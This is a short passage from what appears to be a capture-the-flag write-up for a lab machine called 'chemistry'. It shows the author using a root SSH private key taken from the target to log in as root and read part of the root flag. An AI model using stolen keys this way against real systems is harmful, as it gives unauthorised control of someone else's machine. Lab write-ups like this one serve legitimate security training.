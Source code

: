 ![alt text](assets/image-10.png)

Copying the SSH key to our box, changing its permissions to 600 (`chmod 600 root_id_rsa`), we can successfully authenticate to the machine as the root user:

```
$ ssh root@10.10.11.38 -i root_id_rsa                                                                                                                      
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)                                                               ...snip...                                                                                                     
root@chemistry:~# whoami
root
root@chemistry:~# ls
root.txt
root@chemistry:~# head -c 7 root.txt ; echo
6cfb5de

```